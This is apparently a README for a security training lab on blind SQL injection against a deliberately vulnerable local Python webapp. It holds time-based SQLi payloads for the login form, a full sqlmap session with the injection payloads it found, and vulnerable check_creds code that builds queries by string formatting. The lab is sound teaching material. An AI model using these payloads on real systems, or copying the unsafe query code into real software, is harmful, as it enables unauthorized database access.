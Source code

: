 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/blind-sql-injection/main/content/blind-sql-injection.svg"></p>

An application enables users to interact with a database insecurely. A threat actor can exploit this feature by injecting a malicious query into a trusted web application. When the malicious query is executed, the application behaves normally without showing errors. This type of behavior indicates that the attack is blind

Clone this current repo recursively
```sh
git clone --recurse-submodules https://github.com/qeeqbox/blind-sql-injection
```
Run the webapp using Python
```sh
python3 blind-sql-injection/vulnerable-web-app/webapp.py
```
Open the webapp in your browser 127.0.0.1:5142
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/blind-sql-injection/main/content/1.png"></p>
Right-click on the page and open Developer Tools, then Networking (This will be used to determine the time taken for the web application to respond for login)
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/blind-sql-injection/main/content/2.png"></p>
Type in the username: ' OR RANDOMBLOB(1000000000/2)-- and password: test, if executed, the web application will be vulnerable to blind SQL injection, and that payload will cause a delay, You can also use the same technique to find tables, users, etc. (' and (SELECT 'a' FROM users LIMIT 1)='a' or RANDOMBLOB(100000000/2)--)
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/blind-sql-injection/main/content/3.png"></p>
The payload was executed successfully and caused a delay
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/blind-sql-injection/main/content/4.png"></p>

```sh
user@users-Mac-mini vulnerable-web-app % sqlmap http://127.0.0.1:5142/login --data 'username=test&password=test' -p 'username' --dbms=sqlite --level 5 --risk 3 --ignore-code 401 --batch
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.7#stable}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:20:04 /2025-07-26/

[11:20:04] [INFO] testing connection to the target URL
[11:20:04] [INFO] testing if the target URL content is stable
[11:20:05] [INFO] target URL content is stable
[11:20:05] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[11:20:05] [INFO] heuristic (XSS) test shows that POST parameter 'username' might be vulnerable to cross-site scripting (XSS) attacks
[11:20:05] [INFO] testing for SQL injection on POST parameter 'username'
[11:20:05] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:20:05] [WARNING] reflective value(s) found and filtering out
[11:20:05] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
got a 302 redirect to 'http://127.0.0.1:5142/'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[11:20:05] [INFO] POST parameter 'username' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable (with --code=200)
[11:20:05] [INFO] testing 'Generic inline queries'
[11:20:05] [INFO] testing 'SQLite inline queries'
[11:20:05] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query - comment)'
[11:20:05] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query)'
[11:20:05] [INFO] testing 'SQLite > 2.0 AND time-based blind (heavy query)'
[11:20:05] [INFO] testing 'SQLite > 2.0 OR time-based blind (heavy query)'
[11:20:13] [INFO] POST parameter 'username' appears to be 'SQLite > 2.0 OR time-based blind (heavy query)' injectable 
[11:20:13] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[11:20:13] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[11:20:13] [INFO] target URL appears to be UNION injectable with 7 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[11:20:13] [INFO] testing 'Generic UNION query (99) - 21 to 40 columns'
[11:20:13] [INFO] testing 'Generic UNION query (99) - 41 to 60 columns'
[11:20:14] [INFO] testing 'Generic UNION query (99) - 61 to 80 columns'
[11:20:14] [INFO] testing 'Generic UNION query (99) - 81 to 100 columns'
[11:20:14] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[11:20:14] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 304 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-6373' OR 4741=4741-- IGcq&password=test

    Type: time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: username=test' OR 3859=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- atch&password=test
---
[11:20:14] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[11:20:14] [WARNING] HTTP error codes detected during run:
401 (Unauthorized) - 240 times
[11:20:14] [INFO] fetched data logged to text files under '/Users/user/.local/share/sqlmap/output/127.0.0.1'

[*] ending @ 11:20:14 /2025-07-26/
```

## Code
When user send a username and password in POST request to the login route, the check_creds() is called 
```py
if parsed_url.path == "/login" and "username" in post_request_data and "password" in post_request_data:
    ret = self.check_creds(post_request_data['username'][0],post_request_data['password'][0])
    if isinstance(ret, list) and ret[0] == "valid":
        self.send_content(302, self.gen_cookie(ret[1],60*15)+[('Location', URL)], None)
        self.log_message("%s logged in" % post_request_data['username'][0])
        return
    elif isinstance(ret, list) and ret[0] == "password":
        self.send_content(401, [('Content-type', 'text/html')], self.msg_page(f"Password is wrong".encode("utf-8"), b"login"))
        return
    elif isinstance(ret, list) and ret[0] == "username" or isinstance(ret, list) and ret[0] == "error":
        self.send_content(401, [('Content-type', 'text/html')], self.msg_page(f"User {post_request_data['username'][0]} doesn't exist".encode("utf-8"), b"login"))
        return
```
The check_creds() function checks if the username and password value are valid credentials; it does not check if either is sanitized or valid
```py
def check_creds(self, username, password):
    try:
        with connect(DATABASE, isolation_level=None, check_same_thread=False) as connection:
            cursor = connection.cursor()
            ret = cursor.execute("SELECT * FROM users WHERE username='%s'" % (username)).fetchall()
            if ret:
                ret = cursor.execute("SELECT * FROM users WHERE username='%s' AND hash='%s'" % (username,sha512(password.encode("utf-8")+SALT).hexdigest())).fetchone()
                if ret:
                    return ["valid",ret]
                else:
                    return ["password",ret]
            else:
                return ["username", username]
    except Exception as e:
        return ["error",str(e).encode("utf-8")] 
```